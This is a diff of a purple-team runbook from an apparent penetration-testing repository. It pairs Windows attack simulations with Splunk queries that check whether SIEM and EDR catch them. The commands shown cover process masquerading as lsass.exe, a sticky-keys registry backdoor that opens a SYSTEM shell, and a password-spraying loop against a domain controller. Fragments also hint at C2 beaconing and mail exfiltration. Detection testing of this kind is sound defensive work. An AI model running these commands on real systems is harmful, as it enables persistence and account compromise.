

Before and after one commit to DrHayabusa/HELPAG-VAPT-Test-Site, a Markdown page: docs/tda/TDA_MANUAL_RUNBOOK_ALL_USECASES.md, 3 parts joined by grey strips. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/tda/TDA_MANUAL_RUNBOOK_ALL_USECASES.md
+++ b/docs/tda/TDA_MANUAL_RUNBOOK_ALL_USECASES.md
@@ -67,42 +71,42 @@ $ext=".locky",".crypt",".encrypted",".wncry",".cerber",".zepto",".crypto",".enc"
 
 ## UC0036 — APT Group Process Creation (Masquerading)
-**What to do:** copy `cmd.exe`, rename it to `lsass.exe` in a non-standard folder, run it.
+**What to do:** copy `cmd.exe`, rename to `lsass.exe` in a non-standard folder, run it.
 **How:**
 ```powershell
 Copy-Item C:\Windows\System32\cmd.exe C:\Windows\Temp\lsass.exe
 Start-Process C:\Windows\Temp\lsass.exe
-Get-Process lsass | Select-Object Id,Path,StartTime   # fake one shows path C:\Windows\Temp
+Get-Process lsass | Select-Object Id,Path,StartTime
 ```
 **Validate:**
 ```spl
 index=* host="<HOSTNAME>" EventCode=4688 New_Process_Name="*lsass.exe" earliest=-15m
 | table _time Creator_Process_Name New_Process_Name Process_Command_Line
 ```
-Tell: `New_Process_Name = C:\Windows\Temp\lsass.exe` (wrong path). If EDR kills it on launch = detection.
+Tell: fake one shows `C:\Windows\Temp\lsass.exe`. If EDR kills it on launch = detection.
 **Cleanup:** `Stop-Process -Name lsass -Force -EA SilentlyContinue; Remove-Item C:\Windows\Temp\lsass.exe -Force -EA SilentlyContinue`
 
 ## UC0182 — Application Parents Spawning Malicious Children
-**What to do:** make a script host (`wscript.exe`) spawn `cmd.exe` — the parent→child anomaly.
+**What to do:** make `wscript.exe` spawn `cmd.exe` — the parent→child anomaly.
 **How:**
 ```powershell
-Set-Content "C:\TDA\uc0182.vbs" 'CreateObject("WScript.Shell").Run "cmd.exe /c whoami > C:\TDA\uc0182.txt"'
-wscript.exe "C:\TDA\uc0182.vbs"
-Get-Content "C:\TDA\uc0182.txt"    # confirms the child ran
+Set-Content "$env:TEMP\uc0182.vbs" 'CreateObject("WScript.Shell").Run "cmd.exe /c whoami > %TEMP%\uc0182.txt"'
+wscript.exe "$env:TEMP\uc0182.vbs"
+Get-Content "$env:TEMP\uc0182.txt"
 ```
 **Validate:**
 ```spl
 index=* host="<HOSTNAME>" EventCode=4688 New_Process_Name="*cmd.exe" Creator_Process_Name="*wscript.exe" earliest=-15m
 | table _time Creator_Process_Name New_Process_Name Process_Command_Line
 ```
-**Cleanup:** `Remove-Item C:\TDA\uc0182.* -Force`
+**Cleanup:** `Remove-Item "$env:TEMP\uc0182.*" -Force`
 
 ## UC0185 — Abuse of Accessibility Binaries (Sticky Keys / Shift ×5)
-**What to do:** set `cmd.exe` as the debugger for `sethc.exe` via registry (reversible, no file replace).
+**What to do:** set `cmd.exe` as the debugger for `sethc.exe` via registry (reversible).
 **How:**
 ```powershell
 reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
 ```
-(Optional proof: lock screen → press Shift ×5 → SYSTEM cmd opens.)
+(Proof: lock screen → Shift ×5 → SYSTEM cmd opens.)
 **Validate:**
 ```spl
 index=* host="<HOSTNAME>" ("Image File Execution Options" AND ("sethc.exe" OR "utilman.exe")) earliest=-15m
@@ -187,14 +191,10 @@ $c2="http://<LAB_C2_HOST>/beacon"
 **What to do:** try one password against many accounts (agree accounts/list first — avoid lockouts).
 **How:**
 ```powershell
-# build a user list natively:
-(net user /domain) | Out-File C:\TDA\users.txt
-$users = Get-Content C:\TDA\users.txt | Where-Object {$_ -match '^\S' }
+(net user /domain) | Out-File "$env:TEMP\users.txt"
+$users = Get-Content "$env:TEMP\users.txt" | Where-Object { $_ -match '^\S' }
 $pw = "Winter2026!"
-foreach ($u in $users) {
-  cmd /c "net use \\<DC>\IPC$ /user:$u $pw" 2>$null
-  Start-Sleep -Milliseconds 300
-}
+foreach ($u in $users) { cmd /c "net use \\<DC>\IPC$ /user:$u $pw" 2>$null; Start-Sleep -Milliseconds 300 }
 ```
 **Validate:** `index=* EventCode=4625 | stats dc(user) as accounts by src | where accounts>=10`
 
@@ -320,8 +319,8 @@ Get-ChildItem $dir | ForEach-Object { Send-MailMessage -From "<you>" -To "<exter
 ---
 
 ## Per-test checklist
-1. Note UTC time + host/IP.  2. Announce to SOC.  3. Run the steps from `C:\TDA`.
+1. Note UTC time + host/IP.  2. Announce to SOC.  3. Run the steps in Admin PowerShell (from System32 — fine).
 4. If Halcyon/EDR **blocks** it → screenshot = PASS (detection).
 5. Pull events with the SPL (adjust index/field names).  6. Record pass/gap.  7. Clean up.
 
-*No downloads used — all built-in Windows tools + browser for cloud. Field names vary by data source; use only fake test data and lab-controlled hosts.*
+*No downloads, no working folder — all built-in Windows tools + `$env:TEMP` + browser for cloud. Field names vary by data source; use only fake test data and lab-controlled hosts.*
````
Also changed, not shown: other parts of docs/tda/TDA_MANUAL_RUNBOOK_ALL_USECASES.md (+45 -42 lines).
